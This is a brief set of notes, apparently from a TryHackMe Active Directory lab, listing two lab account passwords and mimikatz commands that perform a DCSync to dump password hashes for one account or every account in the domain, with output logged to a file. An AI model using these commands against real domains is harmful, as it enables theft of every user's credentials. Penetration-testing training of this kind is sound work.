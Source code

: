 ZA/Administrator : tryhackmewouldnotguess1@
louis.cole : Password!

DC Sync of an account
```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

```
mimikatz # log <username>_dcdump.txt 
```

```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```


